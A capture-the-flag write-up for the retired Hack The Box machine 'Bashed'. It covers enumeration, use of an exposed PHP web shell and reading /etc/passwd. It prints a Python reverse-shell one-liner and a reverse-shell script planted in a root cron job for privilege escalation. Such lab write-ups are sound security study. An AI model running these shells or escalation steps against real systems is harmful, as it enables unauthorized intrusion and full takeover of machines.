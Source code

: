 \# Hack The Box: Bashed \*(Retired)\*



\- \*\*Target:\*\* `Bashed`

\- \*\*Date Completed:\*\* September 16, 2025

\- \*\*Difficulty:\*\* Easy \*(felt medium as first box)\*

\- \*\*Flags:\*\*

&nbsp; - User: `<user-flag>`

&nbsp; - Root: `<root-flag>`



> 📝 \*\*Note\*\*: This writeup is for the retired Hack The Box machine `Bashed`. All content is for educational purposes in authorized lab environments only. IPs and flags are redacted to comply with HTB’s Terms of Service.



---



\## 🔍 Initial Enumeration



\### Nmap



nmap -sC -sV -p- --min-rate=1000 <target-ip>

Open port: 80/tcp



Service: Apache HTTPD 2.4.18 (Ubuntu)



Site Title: Arrexel's Development Site



\### Web Discovery

Visited: http://<target-ip>

Added IP and redirected search domain to /etc/hosts file

Found GitHub link: https://github.com/Arrexel/phpbash



\### Directory Enumeration (Gobuster)



gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,txt,html -o gobuster.txt



Interesting directories:



/dev/



/uploads/



/php/



Finding the Shell =>

Discovered working shell at:

http://<target-ip>/dev/phpbash.php



\## Foothold (Web Shell)

Accessed semi-interactive web shell as www-data



Basic Enumeration

whoami

id

ls -la

ls -lha /home

cat /etc/passwd



Discovered users:

arrexel

scriptmanager



\## Shell Upgrade (TTY)

Improved shell usability:



Initiate Netcat listener in Attacker machine

nc -lnvp port



Used Reverse Shell script from Pentest Monkey cheat sheet in the obtained webshell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("$IP",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash"])'



Executed the below commands in attacker machine to make the shell interactive and better

python3 -c 'import pty; pty.spawn("/bin/bash")'



Ctrl+Z (background shell)

stty raw -echo

fg (foreground the listener shell)

export TERM=xterm



\## User Flag Access

Switched to arrexel's home directory:



cat /home/arrexel/user.txt

✅ User Flag: <user-flag-captured>



\## Privilege Escalation



\### Know about current user's permission

sudo -l 

Switching User to scriptmanager user as it requires NO PASSWORD

Successfully switched to scriptmanager without password:



sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'



\### Enumerating Scriptmanager user

ls -la

ls -ls /home

id

groups

checking for permissions

find / -perm -4000 -type f 2>/dev/null

find / -perm -2000 -type f 2>/dev/null



sudo -l ==> requires password for Scriptmanager profile

cat /etc/crontab

ls -la /etc/cron\*

ps aux | grep cron



\### Cronjob Enumeration with pspy

Downloaded and ran pspy64.



Observations:

Cron runs /scripts/test.py as root every minute



/Scripts folder and test.py is world-writable



It generates a test.txt file with root permissions / admin rights — evidence of execution



\### Exploiting Cronjob for Root Shell

Replaced test.py with reverse shell:



import socket, subprocess, os

s = socket.socket()

s.connect(("<attacker-ip>", <port>))

os.dup2(s.fileno(), 0)

os.dup2(s.fileno(), 1)

os.dup2(s.fileno(), 2)

subprocess.call(\["/bin/bash"])



Started listener:

nc -lvnp <port>



Got reverse shell as root



\## Root Flag Access

Switched to root home directory:



cd /root

cat root.txt

✅ Root Flag: <root-flag-captured>



\## Learnings \& Reflections

Key Takeaways:

Got hands-on with cronjob-based privilege escalation



Learned to use pspy for live process monitoring



Practiced switching users with sudo -u (no password required)



Learned to upgrade shells with Python’s pty.spawn



Gained first experience working with web shells like phpbash



Reverse engineering the python script and observing UID, profiles and permissions with which the .py scripts and output files are generated



📎 Tags

\#HTB #OSCP #PrivilegeEscalation #CronJobs #pspy #WebShell #Writeup #Linux

